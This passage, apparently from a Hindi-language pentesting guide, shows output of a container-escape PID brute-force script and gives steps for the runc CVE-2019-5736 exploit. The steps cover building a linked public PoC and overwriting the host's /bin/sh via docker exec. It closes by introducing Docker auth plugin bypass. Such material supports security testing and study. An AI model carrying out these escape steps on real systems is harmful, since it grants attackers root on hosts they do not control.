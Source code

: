 ```bash
root@container:~$ ./release_agent_pid_brute.sh
Checking pid 100
Checking pid 200
Checking pid 300
Checking pid 400
Checking pid 500
Checking pid 600
Checking pid 700
Checking pid 800
Checking pid 900
Checking pid 1000
Checking pid 1100
Checking pid 1200

Done! Output:
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 11:25 ?        00:00:01 /sbin/init
root         2     0  0 11:25 ?        00:00:00 [kthreadd]
root         3     2  0 11:25 ?        00:00:00 [rcu_gp]
root         4     2  0 11:25 ?        00:00:00 [rcu_par_gp]
root         5     2  0 11:25 ?        00:00:00 [kworker/0:0-events]
root         6     2  0 11:25 ?        00:00:00 [kworker/0:0H-kblockd]
root         9     2  0 11:25 ?        00:00:00 [mm_percpu_wq]
root        10     2  0 11:25 ?        00:00:00 [ksoftirqd/0]
...
```
# Runc exploit (CVE-2019-5736)

यदि आप root के रूप में `docker exec` को निष्पादित कर सकते हैं (संभवतः sudo के साथ), तो आप CVE-2019-5736 का दुरुपयोग करके कंटेनर से बाहर निकलकर विशेषाधिकार बढ़ाने का प्रयास कर सकते हैं (exploit [यहाँ](https://github.com/Frichetten/CVE-2019-5736-PoC/blob/master/main.go)). यह तकनीक मूल रूप से **host** के _**/bin/sh**_ बाइनरी को **कंटेनर से** **ओवरराइट** करेगी, इसलिए कोई भी जो docker exec को निष्पादित करता है, वह पेलोड को ट्रिगर कर सकता है।

पेलोड को अनुसार बदलें और `go build main.go` के साथ main.go को बिल्ड करें। परिणामी बाइनरी को निष्पादन के लिए डॉकर कंटेनर में रखा जाना चाहिए।\
निष्पादन पर, जैसे ही यह `[+] Overwritten /bin/sh successfully` दिखाता है, आपको होस्ट मशीन से निम्नलिखित निष्पादित करना होगा:

`docker exec -it <container-name> /bin/sh`

यह main.go फाइल में मौजूद पेलोड को ट्रिगर करेगा।

अधिक जानकारी के लिए: [https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)

# Docker Auth Plugin Bypass

कुछ मौकों पर, सिसएडमिन विशेषाधिकार बढ़ाने के बिना निम्न विशेषाधिकार वाले उपयोगकर्ताओं को डॉकर के साथ इंटरैक्ट करने से रोकने के लिए डॉकर में कुछ प्लगइन्स इंस्टॉल कर सकते हैं।
